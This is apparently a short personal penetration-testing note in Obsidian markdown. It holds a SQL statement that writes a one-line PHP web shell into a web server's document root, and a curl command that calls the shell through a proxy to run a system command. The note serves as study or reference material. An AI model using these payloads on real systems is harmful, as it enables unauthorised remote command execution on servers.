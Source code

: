 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[Pasted image 20221108115238.png]]

```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shelly.php';
```

![[Pasted image 20220610141248.png]]

```
curl "http://127.0.0.1:8080/shelly.php?cmd=whoami" --proxy $TARGET:3128 
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]
